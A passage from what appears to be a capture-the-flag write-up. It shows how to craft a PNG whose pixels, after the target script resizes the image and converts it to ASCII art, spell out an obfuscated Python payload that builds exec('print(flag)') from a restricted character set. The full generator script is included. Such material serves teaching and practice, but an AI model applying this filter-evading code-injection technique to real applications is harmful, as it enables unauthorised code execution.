 Then, to make it easy to see a difference between our characters, we can decide to write each of them as the character whose code is `chars[index_of_char] * 16`, which will span the range **{0 .. 240}**.

### Handling resizing

Now, before our payload can do anything, we're going to have to deal with the following code:

```python
S = ( round(img.size[0]*SC*WCF), round(img.size[1]*SC) )
img = np.sum( np.asarray( img.resize(S) ), axis=2)
```

Since we have `SC = 1/10` and `WCF = 7/4`, this basically resizes the image to **7/40<sup>th</sup>** of its width and **1/10<sup>th</sup>** of its height.

While this probably won't be a problem heightwise (*we only want one line anyway*), **this is going to be a bit more complicated widthwise**. Indeed, the resize makes it so that only 7 out of 40 characters will be picked, and since 40 is not divisible by 7, we won't be able to just write **40/7** consecutive occurrences of the same character for it to be picked only once.

**40/7** is about **5.7**, which means that we're going to have to write each character **6 times** (*we can't write fractional characters, unfortunately*) for it to appear in the **ASCII art output**. However, because **6 is larger than 5.7**, there're going to be some leftover characters, meaning that **some characters will be duplicated**. Fortunately, this is not really a problem if we manage to make it so that the duplicated characters are **only spaces**.

## Implementing a solution

Using what we have now analyzed, we come up with the following first implementation:

```python
#!/usr/bin/python3

from PIL import Image

# Initializing the payload
payload = 'exec(chr(110 + 1 + 1) + "r" + chr(100 + 1 + 1 + 1 + 1 + 1) + chr(110) + chr(110 + 1 + 1 + 1 + 1 + 1 + 1) + "(" + chr(100 + 1 + 1) + chr(110 - 1 - 1) + chr(100 - 1 - 1 - 1) + chr(1 + 100 + 1 + 1 + 1 % 1) + ")")'

# Resetting the characters (needed here, although not very clean :)
chars = ' -"~rc()+=01exh%'

# Filling an array with the index of each letter in the list of the
# available characters, in range(0, 255, 16).
payload_array = [chr(chars.index(letter) * 16) for letter in payload]

# Creating three components for each byte, and copying this 3-byte sequence
# 6 times so as to withstand the resizing of the image.
rgb_string = ''.join([(chr(255 - ord(i)) + '\x00\x00') * 6 for i in payload_array])
rgb_string = bytes(ord(c) for c in rgb_string)

# Number of RGB components in the image
dim_img = int(len(rgb_string) / 3)

# Height of the image
height = 10
img = Image.frombytes('RGB', (dim_img, height), rgb_string * height)
img.save('payload.png')
```
